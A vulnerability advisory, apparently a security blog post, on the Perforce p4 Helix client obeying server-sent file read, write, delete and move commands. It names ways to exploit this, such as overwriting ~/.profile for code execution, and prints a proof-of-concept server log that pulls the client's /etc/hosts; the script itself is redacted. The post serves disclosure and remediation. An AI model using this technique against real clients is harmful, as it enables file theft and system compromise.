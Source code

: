 ```yaml
---
layout: post
title: Perforce - Helix Command-Line Client Arbitrary File Read / Write
category: bugreports
---
```


The `p4` Helix Command-Line Client accepts and responds to Perforce protocol commands supplied by a connected server without any validation. A malicious Perforce server can send arbitrary Perforce protocol commands to connecting clients in order to expose the contents of client system files or write arbitrary files on the client system.

<!--more-->

<pre class="bugreport">
Description:       Helix Command-Line Client Arbitrary File Read / Write
Versions Affected: 2014.1 through 2018.1
Category:          Arbitrary File Read / Write
Reporter:          Alex Chapman

Summary:
--------
The `p4` Helix Command-Line Client accepts and responds to Perforce protocol commands supplied by a connected server without any validation. A malicious Perforce server can send arbitrary Perforce protocol commands to connecting clients in order to expose the contents of client system files or write arbitrary files on the client system. Exploitation of this vulnerability could result in complete compromise of a client system.

Details:
--------
The `p4` Helix Command-Line Client responds to arbitrary server commands, no matter what stage of authentication (or lack thereof) the client has completed with the server. In addition to this, the `p4` client is not restricted to reading or writing files in certain directories.

Perforce protocol commands which can be sent by a server include:
* Read a specified file and send the contents to the server (`client-SendFile` command)
* Write arbitrary server specified data to a given file (`client-WriteFile` command)
* Delete arbitrary files (`client-DeleteFile` command)
* Move arbitrary files (`client-MoveFile` command)

Given these weaknesses by sending a `client-SendFile` as soon as a client connects, a malicious Perforce server can disclose the contents of arbitrary files from the client system. Alternatively sending a `client-WriteFile` command can be used to write arbitrary files, leading to compromise of the system.

Analysis:
---------
Exploitation of this vulnerability allows a malicious server to write arbitrary data to any file path accessible to the user running the `p4` client. As an example of exploiting this issue, overwriting a `~/.profile` on *nix base systems would allow for Remote Code Execution when the user next starts a shell. Alternatively, a malicious server can request the client send the contents of arbitrary files, potentially disclosing sensitive client information.

This issue could be exploited in several ways, including:
1. Abusing CI/CD systems which allow users to specify arbitrary Perforce servers from which to obtain source
2. Intercepting non-TLS encrypted p4 connections on untrusted networks (e.g. Public Wifi)
3. Convincing users through the use of social engineering techniques to connect to a malicious Perforce server

In order to remediate this issue consider restricting the p4 client to only responding to commands from an authenticated Perforce server. Additionally the p4 client should only be permitted to read and write files within a specified directory (supplied via the command line) or the current working directory.

Proof of Concept:
-----------------
See the Proof of Concept Python3 script at ***redacted***. Below is the server side output of this script when a p4 client connects using the `./p4 -p &lt;server_address&gt;:&lt;server_port&gt; login` command. This output shows the contents of the clients `/etc/host` file being sent to the server.

# python3 server.py 1667
p4server listening on 0.0.0.0:1667
Received connection
 &lt; Receiving commands
protocol(cmpfile='', client='85', api='99999', enableStreams='', enableGraph='', expandAndmaps='', host='ubuntu', port='perforce.example.com:1667', sndbuf='319487', rcvbu
f='319488')
 &gt; Sending commands
protocol(xfiles='7', server='3', server2='46', serverID='master', revver='9', tzoffset='0', security='3', sndbuf='34559', rcvbuf='280800', autoTune='1')
 &gt; Sending commands
client-Ping()
 &lt; Receiving commands
user-login(version='2018.2/LINUX26X86_64/1751184', autoLogin='', prog='p4', client='ubuntu', cwd='/home/user/p4', host='ubuntu', os='UNIX', user='user
', charset='1', clientCase='0')
 &gt; Sending commands
client-SendFile(handle='0', path='/etc/hosts', open='open_file_result', write='read_file_result', confirm='confirm', decline='decline')
 &gt; Sending commands
release()
 &lt; Receiving commands
dm-Ping()
 &lt; Receiving commands
open_file_result(fileSize='232', handle='0', path='/etc/hosts', open='open_file_result', write='read_file_result', confirm='confirm', decline='decline')
 &lt; Receiving commands
read_file_result(data='127.0.0.1\tlocalhost\n127.0.1.1\tubuntu\n...', handle='0')
Contents of '/etc/hosts':
        127.0.0.1       localhost
        127.0.1.1       ubuntu

        # The following lines are desirable for IPv6 capable hosts
        ::1     ip6-localhost ip6-loopback
        fe00::0 ip6-localnet
        ff00::0 ip6-mcastprefix
        ff02::1 ip6-allnodes
        ff02::2 ip6-allrouters

 &lt; Receiving commands
confirm(data='', fileSize='232', digest='0991B6FEC21002CDCA46AA738B3BBDA6', time='1568203510', handle='0', path='/etc/hosts', open='open_file_result', write='read_file_resul
t', confirm='confirm', decline='decline')
 &lt; Receiving commands
release2()

Timeline
--------
20190404 - No `security.txt` file available on `https://www.perforce.com`
20190404 - Reached out via ‘Contact Us’ form on the website for a security contact
20190408 - Reached out via email to `uk@perforce.com`, `info@perforce.com` and `security@perforce.com`
20190410 - Reached out on Twitter asking for a security contact at @perforce
20190410 - Informed someone would be in touch shortly
20190411 - Perforce support DM via Twitter
20190411 - Supplied perforce with vulnerability details
20190412 - Initial vendor response
20190418 - Confirmed expected behaviour and will not fix, suggested issue can be mitigated by the `P4CLIENTPATH` environment variable
</pre>
